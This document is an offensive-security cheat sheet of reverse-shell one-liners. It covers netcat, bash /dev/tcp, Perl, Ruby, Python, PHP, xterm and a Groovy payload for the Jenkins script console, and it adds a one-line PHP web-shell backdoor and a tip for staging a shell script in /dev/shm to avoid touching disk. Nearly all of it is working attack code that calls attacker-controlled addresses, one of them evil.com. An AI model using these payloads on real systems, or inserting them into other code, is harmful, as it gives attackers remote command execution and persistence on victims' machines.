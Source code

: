 ## One-liner reverse shells...
Netcat:
On the listener:

` nc -l -p 8080 -vvv`

On the remote host...

```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.103 4444 >/tmp/f &
```

Bash:
```
bash -i >& /dev/tcp/10.0.0.103/4443 0>&1

exec 5<>/dev/tcp/evil.com/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Perl:
```
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Ruby:

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Python:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.227",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP:

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)
```
PHP backdoor :

`<?php passthru($_GET['cmd']); ?>`
XTERM:
```
Server:
xterm -display 10.0.0.1:1
Listener:
Xnest :1
xhost +targetip
```

GROOVY SCRIPT SHELL (JENKINS script console)
```
﻿String host="10.10.14.26";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

For getting a revershell in shared memory so as to not touch hard drive use Linux Shared Memory -

'wget IP:port/reverse.py -O /dev/shm/.rev.py'

Python reverse shell - https://github.com/infodox/python-pty-shells

Upload tcp_pty_backconnect.py to target (/dev/shm or /tmp or wherever) [CHANGE IP AND PORT]
Run listener on attacker machine - tcp_pty_shell_handler.py -b IP:port 



